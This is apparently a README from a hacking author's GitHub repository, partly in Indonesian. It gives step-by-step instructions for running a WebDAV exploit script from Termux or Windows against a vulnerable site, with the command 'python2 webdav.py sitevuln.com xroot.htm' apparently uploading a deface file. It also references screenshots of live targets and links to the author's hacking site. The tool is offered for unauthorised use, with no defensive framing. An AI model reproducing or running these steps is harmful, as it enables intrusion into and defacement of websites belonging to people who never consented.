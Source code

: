 # Exploit Webdav Windows & Termux Working

# Eksekusi via Termux

pkg update && pkg upgrade

pkg install python2

pkg install openssl curl

pkg install libcurl

pip2 install urllib3 chardet certifi idna requests

git clone https://github.com/boychongzen18/webdav.git

cd webdav

chmod +x webdav.py

python2 webdav.py sitevuln.com xroot.htm

# Screenshot Via Termux
![be](https://raw.githubusercontent.com/boychongzen18/webdav/master/termux.png)
# Screenshot Live Target 
![be](https://raw.githubusercontent.com/boychongzen18/webdav/master/termux1.png)

================================================================================
# Eksekusi via Window

Download Python27 : https://shortid.co/bFWBm

git clone https://github.com/boychongzen18/webdav.git

cd webdav

chmod 777 webdav.py

python webdav.py sitevuln.com xroot.htm

# Screenshot Via Windows
![be](https://raw.githubusercontent.com/boychongzen18/webdav/master/webdav.png)

# Screenshot Target Webdav
![be](https://raw.githubusercontent.com/boychongzen18/webdav/master/target.png)

My Youtube    : https://www.youtube.com/channel/UCKdOPQ_iIXcqK17PB_2RMdQ

Link Tutorial : 

My Website    : http://hackingforlive.cf,,https://hackingforlive.wordpress.com

My Facebok    : https://web.facebook.com/xroot.xroot.7

Moto : Berbagi Itu Indah

Regard Boychongzen aka Xroot
